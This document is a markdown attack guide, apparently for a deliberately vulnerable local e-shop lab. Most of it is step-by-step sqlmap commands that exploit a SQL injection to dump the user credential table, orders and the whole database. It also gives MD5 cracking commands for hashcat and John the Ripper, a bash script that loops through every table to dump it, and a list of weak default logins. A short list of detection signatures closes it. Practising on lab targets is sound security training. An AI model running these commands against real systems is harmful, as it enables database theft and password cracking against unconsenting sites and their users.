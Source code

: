 # SQLMap Working Commands for E-Shop SQL Injection

## Confirmed Working Command

This command successfully dumped the user table:

```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       -T eshop_customuser \
       --dump
```

## Step-by-Step SQLMap Attack

### 1. Initial Detection
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8
```

### 2. Get Current Database
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       --current-db
```

### 3. List All Tables
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       --tables
```

### 4. Dump Specific Tables

**User Credentials:**
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       -T eshop_customuser \
       --dump
```

**Products:**
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       -T eshop_product \
       --dump
```

**Orders:**
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       -T eshop_order \
       --dump
```

### 5. Extract Specific Columns
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       -T eshop_customuser \
       -C username,email,password \
       --dump
```

### 6. Full Database Dump
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       --dump-all
```

## Advanced Exploitation

### Get Database Schema
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       --schema
```

### Search for Specific Data
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       --search -C password
```

### Extract Without Dumping (Count Records)
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       -T eshop_customuser \
       --count
```

## What SQLMap Extracts

From the `eshop_customuser` table, SQLMap will dump:
- User IDs (UUIDs)
- Usernames
- Email addresses
- Password hashes (weak MD5)
- First/Last names
- Join dates
- Last login times
- Admin/Staff status

## Post-Exploitation

### Crack Weak MD5 Passwords
Since the app uses weak MD5 hashing, you can crack the passwords:

```bash
# Save hashes to file
echo "HASH_HERE" > hashes.txt

# Crack with hashcat
hashcat -m 0 hashes.txt /path/to/wordlist.txt

# Or with John the Ripper
john --format=raw-md5 hashes.txt
```

### Known Weak Passwords in Database
- admin:admin123
- test:test123
- john:password
- maria:123456
- george:george

## Important Notes

1. **Session Required**: You must be logged in and provide a valid sessionid
2. **SQLite Database**: The backend is SQLite, not MySQL/PostgreSQL
3. **Weak Hashing**: Passwords are stored as MD5 hashes (intentionally vulnerable)
4. **No Rate Limiting**: SQLMap can use multiple threads safely

## Automation Script

Create `dump_all.sh`:
```bash
#!/bin/bash
SESSION_ID="YOUR_SESSION_ID"
BASE_URL="http://127.0.0.1:8000/?q=test"

# Dump all interesting tables
for table in eshop_customuser eshop_product eshop_order eshop_cart eshop_productreview; do
    echo "[*] Dumping $table..."
    sqlmap -u "$BASE_URL" \
           --cookie="sessionid=$SESSION_ID" \
           --batch \
           --threads 8 \
           -T "$table" \
           --dump
done
```

## Detection Signatures

This attack creates these signatures in logs:
- Multiple requests with SQL syntax in query parameter
- Requests for non-existent products with SQL operators
- High volume of requests from single session
- Database errors in application logs
- Successful dumps create local files in `~/.sqlmap/output/`
